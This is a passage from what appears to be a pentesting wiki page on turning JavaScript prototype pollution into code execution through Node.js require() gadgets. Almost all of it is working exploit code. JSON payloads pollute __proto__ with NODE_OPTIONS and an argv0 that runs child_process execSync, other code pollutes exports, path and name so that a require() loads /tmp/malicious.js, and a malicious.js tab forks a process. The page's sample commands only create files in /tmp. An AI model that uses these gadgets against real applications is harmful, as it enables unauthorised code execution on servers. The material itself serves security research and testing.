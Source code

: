 ```javascript

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_1\\").toString())//"}}'
);

clone(USERINPUT);

var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```

{{#endtab}}

{{#tab name="malicious.js"}}

```javascript
const { fork } = require("child_process");
console.log("Hellooo from malicious");
fork("/path/to/anything");
```

{{#endtab}}
{{#endtabs}}

<br>

### Relative require - 2

{{#tabs}}
{{#tab name="exploit"}}

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {};
b.__proto__.data = {};
b.__proto__.data.exports = { ".": "./malicious.js" };
b.__proto__.path = "/tmp";
b.__proto__.name = "./relative_path.js"; //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_path\\").toString())//"}}'
);

clone(USERINPUT);

var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
